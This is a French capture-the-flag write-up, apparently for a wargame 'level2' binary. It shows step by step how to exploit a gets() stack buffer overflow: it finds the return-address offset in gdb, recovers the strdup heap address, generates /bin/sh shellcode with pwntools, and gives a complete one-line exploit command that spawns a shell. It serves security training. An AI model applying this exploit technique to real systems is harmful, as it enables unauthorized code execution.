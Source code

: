 # L3V31 D3UX

- C'est le meme que le precedent gets a une vulnerabilité en aillant pas de limite de taille
- On regarde combien il faut ecrire pour pouvoir overwrite la Return Address
<pre>
$> gdb ./level2
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EBP: 0x41344141 ('AA4A')
ESP: 0xffffd8a0 ("fAA5AAKAAgAA6AAL")
<strong>EIP: 0x41414a41 ('AJAA')</strong>
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414a41 in ?? ()
gdb-peda$ pattern offset AJAA
<strong>AJAA found at offset: 80</strong>
</pre>
- On recupere l'addresse generer par le strdup qui contiendra notre shellcode
<pre>
$> python -c "print('a' * 75)" | ltrace ./level2
\_\_libc\_start\_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0
fflush(0xb7fd1a20)                                     = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)          = 0xbffff6fc
puts("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)            = 76
<strong>strdup("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)          = 0x0804a008</strong>
+++ exited (status 8) +++
</pre>

- On genere notre shellcode avec pwntool
```
$> python3 -c "import pwn; print(pwn.asm(pwn.shellcraft.sh()))"
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```

```
| Size |      Name      | Data           |
|:----:|:--------------:|----------------|
|      |                | '\90' * 20     |
|  76  |      Stack     | ShellCode (44) |
|      |                | 'a' * 12       |
|------|----------------|----------------|
|   4  |       SFP      | 'a' * 4        |
|------|----------------|----------------|
|   4  | Return Address | Adress strdup  |
|------|----------------|----------------|
```

<table>
<tbody>
<tr>
<td align="center">Size</td>
<td align="center">Name</td>
<td align="center">Data</td>
</tr>
<tr>
<td align="center" rowspan="3">76</td>
<td align="center" rowspan="3">Buffer</td>
<td align="left">'\90' * 20</td>
</tr>
<tr><td align="left">ShellCode (44)</td></tr>
<tr><td align="left">'a' * 12</td></tr>
<tr>
<td align="center">4</td>
<td align="center">SFP</td>
<td align="left">'a' * 4</td>
</tr>
<tr>
<td align="center">4</td>
<td align="center">Return Adress</td>
<td>
<p align="left">Adress strdup</p>
</td>
</tr>
</tbody>
</table>

- Voici la commande complete
```
((python -c 'print("\x90"*20 + "jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80" + "A"*16 + "\x08\xa0\x04\x08")'); cat) | ./level2
```
